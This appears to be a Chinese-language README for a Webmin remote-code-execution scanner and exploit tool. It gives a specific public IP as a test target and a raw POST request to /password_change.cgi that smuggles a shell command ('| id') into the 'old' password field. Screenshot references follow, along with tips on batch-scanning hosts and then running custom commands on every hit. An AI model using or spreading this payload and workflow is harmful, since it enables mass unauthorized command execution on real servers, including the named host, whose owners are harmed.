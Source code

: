 ## Webmin RCE检测和利用

测试IP:https://12.230.227.29:443/

payload

```python
POST /password_change.cgi HTTP/1.1
Host: xxx:port
Referer: http://xxx:port/sesss.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=cnmb&pam=&expired=2&old=test | id&new1=test2&new2=test2
```

参数如下：

![](https://s2.ax1x.com/2019/08/20/m8rgXQ.png)



检测如下

![](https://s2.ax1x.com/2019/08/20/m8r71U.png)



执行自定义命令

![](https://s2.ax1x.com/2019/08/20/m8rbX4.png)



一些需要注意的问题

* 批量检测完之后会保存为save.txt,或许你会直接调用批量执行命令的参数。在那之前先把save.txt里的passwrod_change.cgi给删掉

* 执行自定义命令的时候有时第一次可能会遇见超时，在执行一次即可回显

  第二个问题例子:

  ![](https://s2.ax1x.com/2019/08/20/m8rzh6.png)

  